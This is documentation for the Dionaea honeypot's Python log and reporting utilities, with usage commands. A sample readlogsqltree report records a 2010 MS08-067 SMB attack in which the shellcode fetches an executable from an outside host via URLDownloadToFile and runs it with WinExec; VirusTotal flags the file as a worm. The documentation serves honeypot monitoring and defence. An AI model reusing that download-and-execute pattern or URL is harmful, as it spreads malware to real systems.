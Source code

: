 Utils
=====

Dionaea ships with some utils, as these utils are written in python and
rely on the python3 interpreter dionaea requires to operate, this
software can be found in modules/python/utils.


          readlogsqltree <#readlogsqltree> -
          modules/python/readlogsqltree.py

readlogsqltree is a python3 script which queries the logsql sqlite
database for attacks, and prints out all related information for every
attack.
This is an example for an attack, you get the vulnerability exploited,
the time, the attacker, information about the shellcode, the file
offered for download, and even the virustotal report for the file.

2010-10-07 20:37:27
  connection 483256 smbd tcp accept 10.0.1.11:445 <- 93.177.176.190:47650 (483256 None)
   dcerpc bind: uuid '4b324fc8-1670-01d3-1278-5a47bf6ee188' (SRVSVC) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '7d705026-884d-af82-7b3d-961deaeb179a' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '7f4fdfe9-2be7-4d6b-a5d4-aa3c831503a1' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '8b52c8fd-cc85-3a74-8b15-29e030cdac16' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '9acbde5b-25e1-7283-1f10-a3a292e73676' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid '9f7e2197-9e40-bec9-d7eb-a4b0f137fe95' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'a71e0ebe-6154-e021-9104-5ae423e682d0' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'b3332384-081f-0e95-2c4a-302cc3080783' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'c0cdf474-2d09-f37f-beb8-73350c065268' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'd89a50ad-b919-f35c-1c99-4153ad1e6075' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc bind: uuid 'ea256ce5-8ae1-c21b-4a17-568829eec306' (None) transfersyntax 8a885d04-1ceb-11c9-9fe8-08002b104860
   dcerpc request: uuid '4b324fc8-1670-01d3-1278-5a47bf6ee188' (SRVSVC) opnum 31 (NetPathCanonicalize (MS08-67))
   profile: [{'return': '0x7df20000', 'args': ['urlmon'], 'call': 'LoadLibraryA'}, {'return': '0', 'args': ['', 'http://208.53.183.158/m.exe', '60.exe', '0', '0'], 'call': 'URLDownloadToFile'}, {'return': '32', 'args': ['60.exe', '895'], 'call': 'WinExec'}, {'return': '0', 'args': ['-1'], 'call': 'Sleep'}]
   offer: http://208.53.183.158/m.exe
   download: 3eab379ddac7d80d3e38399fd273ddd4 http://208.53.183.158/m.exe
     virustotal 2010-10-07 04:59:07 5/38 (13%) http://www.virustotal.com/file-scan/report.html?id=265e39edcba9d9004451601544e625f2d3d04f837d0aaf1f8464cb2c819c1939-1286420347
       names 'High Risk Fraudulent Security Program' 'Suspicious file' 'Trojan.DownLoader1.27100' 'Worm.Win32.Rimecud' 'Worm:Win32/Rimecud.B'


To create such report for your own honeypots activities for the last 24
hours run:


./readlogsqltree.py  -t $(date '+%s')-24*3600 /opt/dionaea/var/dionaea/logsql.sqlite


          gnuplotsql <#gnuplotsql> - modules/python/gnuplotsql.py

gnuplotsql is a very slow python3 script which runs some queries on the
logsql <#logsql> sqlite database and creates graphs with gnuplot of the
data, stores them on disk and creates an index of the data. The images
are per protocol and look like this: Overview for dionaea smbd.
Here <gnuplotsql> is how the whole thing looks like.
To create such images of your own data, run:


./gnuplotsql.py -d /opt/dionaea/var/dionaea/logsql.sqlite -p smbd -p epmapper -p mssqld -p httpd -p ftpd

The blog got something on gnuplotsql as well:

  * 2010-12-05 sudden death <http://carnivore.it/2010/12/05/sudden_death>
  * 2010-10-01 Infosanity's Blog: gnuplotsql.py
    <http://blog.infosanity.co.uk/2010/10/01/gnuplotsql-py/>
  * 2010-09-19 gnuplotsql <http://carnivore.it/2010/09/19/gnuplotsql>


          pg_backend <#pg_backend> - modules/python/xmpp/pg_backend.py

pg_backend is the backend for logxmpp <#logxmpp>, currently it is a
python2.x script which uses pyxmpp to access the xmpp service. It parses
the messages received and can store the events in a postgres database
and the received files on disk. pg_backend requires an xmpp account.
/without db/


./pg_backend.py -U USER@sensors.carnivore.it -P XMPPPASS -M dionaea.sensors.carnivore.it -C anon-files -C anon-events -f /tmp/


/with db/ create database

psql ...

start backend


./pg_backend.py -U USER@sensors.carnivore.it -P XMPPPASS -M dionaea.sensors.carnivore.it -C anon-files -C anon-events -s DBHOST -u DBUSER -d xmpp -p DBPASS -f /tmp/
